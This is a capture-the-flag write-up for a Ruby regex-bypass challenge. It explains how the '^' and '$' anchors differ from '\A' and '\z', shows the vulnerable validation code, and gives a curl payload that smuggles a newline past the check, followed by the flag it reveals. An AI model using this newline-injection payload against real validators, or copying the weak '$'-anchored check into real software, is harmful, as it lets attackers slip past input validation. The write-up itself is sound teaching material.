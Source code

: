 
| Anchor | Meaning |
| ------ | ------------------------------------------------ |
| `^` | Matches **beginning of text**.                            |
| `$` | **matches end of text or before newline (`\n`)**.      |
| `\A` | Matches **absolute start**. |
| `\z` | Matches **absolute end of text** (absolute end).   |


```ruby
post '/' do
  @input = params['input'].to_s
  @message = ""
  @masterkey = ""
  
  pattern = /^appsecmaster\.net$/
  
  if @input =~ pattern
    @message = "redirecting to #{@input}"
    # For challenge purposes only
    if @input != "appsecmaster.net"
      begin
        @masterkey = File.read('/tmp/masterkey.txt')
      rescue
        @masterkey = "Masterkey file not found"
      end
    end
    ###
  else
    @message = "Invalid input. Must match the pattern."
  end
  
```


| Anchor | Where does it match?                        | Example text: `"example.com\nmalicious"` |
| ------ | --------------------------------- | ------------------------------------------------------ |
| `$` | End of text **or** before **newline** | Matches `"example.com"` and ignores `\nmalicious` |
| `\z` | **absolute end** only | **Will not match** the text unless there is nothing after `"example.com"` |



### Practical example:

```ruby
# Example of regex
pattern1 = /example\.com$/
pattern2 = /example\.com\z/

input = "example.com\nmalicious"

puts input =~ pattern1 # => matches, the result will be index
puts input =~ pattern2 # => nil (no match)
```
---

## solution

> because of **`<input type="text" name="input">`** if we entered **`appsecmaster.net\nhacker.com`** it will consider it as text so will not make new line

> #### so we will send it using curl


```
curl -X POST http://3.253.72.65/ -d $'input=appsecmaster.net\nhacker.com'
```



```html
curl -X POST http://3.253.72.65/ -d $'input=appsecmaster.net\nhacker.com'
<!DOCTYPE html>
<html>
<head>
    <title>Regex Bypass Challenge</title>
    <link rel="stylesheet" href="/style.css">
</head>
<body>
    <div class="container">
        <h1>Welcome to AppSecMaster!</h1>
        <p>Only inputs matching the regex pattern are allowed.<br>Enter an input that will bypass the validation.</p>
        <form method="post">
            <input type="text" name="input" placeholder="e.g., appsecmaster.net" value="appsecmaster.net
hacker.com">
            <input type="submit" value="Submit Input">
        </form>

        <p class="message success">redirecting to appsecmaster.net
hacker.com</p>


        <div class="flag">
            <strong>Masterkey:</strong> <code>62108b8e6df9c25b8264f9de522027c7</code>
        </div>

    </div>
</body>
</html>

┌──(kali㉿localhost)-[~]
└─$
```


```
62108b8e6df9c25b8264f9de522027c7
```














